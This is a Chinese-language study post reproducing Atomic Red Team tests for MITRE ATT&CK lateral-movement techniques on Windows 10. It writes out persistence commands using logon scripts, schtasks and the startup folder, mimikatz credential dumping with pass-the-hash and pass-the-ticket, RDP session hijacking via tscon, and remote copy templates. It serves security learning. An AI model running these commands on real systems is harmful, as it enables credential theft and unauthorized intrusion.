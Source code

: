 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之lateral-movement
excerpt: "跟着ATT&CK学安全之lateral-movement"
categories: [ATT&CK]
comments: true
---
```

### Application Deployment Software
攻击者可以通过企业管理员账号进行软件下发,来进行横向移动,或者persistence

这个没法复现
### T1037 - Logon Scripts
通过修改远程的Logon Scripts脚本来进行横向移动
###### 测试1 Logon Scripts
```
echo cmd /c "#{script_command}" > #{script_path}
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "#{script_path}"
```
win10成功复现
###### 测试2 使用调度系统添加Logon自启动
```
schtasks /create /tn "T1037_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1037_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```
win10成功复现
###### 测试3 Supicious bat file run from startup Folder
就是把文件放在了startup文件夹中
```
Copy-Item $PathToAtomicsFolder\T1037\src\batstartup.bat "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat"
Copy-Item $PathToAtomicsFolder\T1037\src\batstartup.bat "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\batstartup.bat"
Start-Process "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat"
Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\batstartup.bat"
```
win10成功复现
#### T1075 - Pass the Hash
这项技术不需要红队获得密码明文,这个技术绕过了标准的权限认证步骤,直接到hash验证的部分,win7或者高于KB2871997需要域名用户凭证,或者RID 500 administrator hash
###### 测试 
首先用这个方法把密码hash dump出来**(mimikatz现在也可以显示明文了!!!!!)**
```
privilege::debug
sekurlsa::logonpasswords
```
然后
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
成功复现
###### 测试2 crackmapexec Pass the Hash
这个是一个竞品,暂时跳过
### T1097 - Pass the Ticket
pass the ticket是使用Kerberos tickets而不需要账户密码获得权限.Kerberos验证通常被用来当作横向移动的第一步.这种技术需要获取有效的Kerberos ticket和有效的账户
###### 测试1 Mimikatz Kerberos Ticket Attack
```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```
更多内容见:https://blog.csdn.net/citelao/article/details/50947685
### T1077 - Windows Admin Shares
windows系统有一个隐藏的网络分享,它只在administrator用户可见,并且提供了远程文件复制等功能.红队可以使用这个技术结合administrator等级的账号使用SMB协议进行远程控制.

**之后再补充**
### T1076 - Remote Desktop Protocol
远程桌面是操作系统中的常见功能。它允许用户使用远程系统上的系统桌面图形用户界面登录到交互式会话。Microsoft将其对远程桌面协议（RDP）的实现称为远程桌面服务（RDS）。

如果启用了服务并允许访问具有已知凭据的帐户，则攻击者可以通过RDP / RDS连接到远程系统以扩展访问权限。攻击者可能会使用凭据访问技术来获取与RDP一起使用的凭据。攻击者还可以结合使用RDP和可访问性功能技术来实现持久性。

攻击者还可能执行RDP会话劫持，其中涉及窃取合法用户的远程会话。通常情况下当其他人试图窃取其会话(可以理解为windows的快速切换用户功能)时会收到问题提示并要求出示密码。凭借系统权限(SYSTEM权限)的终端服务控制台c:\windows\system32\tscon.exe [session number to be stolen]，攻击者可以切换会话而无需输入密码。这可能导致攻击者窃取域管理员或更高特权的账户会话。











#### T1105 - Remote File Copy
##### 测试1 rsync remote file copy (push)
平台:linux
`rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}`
##### 测试2 rsync remote file copy (pull)
平台:linux
`rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}`
##### 测试3 scp remote file copy (push)
平台:linux
`scp #{local_file} #{username}@#{remote_host}:#{remote_path}`
##### 测试4 scp remote file copy (pull)
平台:linux
`scp #{username}@#{remote_host}:#{remote_file} #{local_path}`
方法很多,未完待续

